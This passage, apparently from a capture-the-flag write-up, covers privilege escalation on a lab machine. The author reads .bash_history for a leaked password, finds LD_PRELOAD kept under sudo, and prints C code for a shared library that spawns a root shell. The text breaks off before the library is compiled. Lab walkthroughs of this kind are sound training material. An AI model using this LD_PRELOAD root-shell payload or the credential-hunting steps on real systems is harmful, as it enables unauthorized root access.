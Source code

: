 <br/>

### Privilege Escalation
Now we need to work our way up to root.

Looking inside the user home folder there is the file containing the bash commands that have been executed, this is a nice starting point to look for data leaks.
```bash
cat .bash_history
```
and we have the user password: MyStrongestPasswordYet$4291

Now we can see if we have the permission to run any command as sudo:
```bash
sudo -l
```
yes we can run this one:
```
Matching Defaults entries for saad on m4lware:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User saad may run the following commands on m4lware:
    (root) /usr/bin/ping
```

Let's try it
```bash
sudo /usr/bin/ping m4lware
```

We can obviously see all the packets being transmitted, but that alone is not really useful to our purpose.

Another thing to notice from the result above is `env_keep+=LD_PRELOAD` which will let us keep the environmental variable `LD_PRELOAD` when running a command with `sudo`.

If we are  able to create a shared library that contains malicious code and make it being loaded thanks to `LD_PRELOAD`;
what should happen is that when we run the ping binary with sudo the  library will be loaded, ad the malicious code will be executed with elevated privileges.

So let's create a shared library:
```bash
cd /tmp
```
```bash
nano shell.c
```
paste this inside:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```
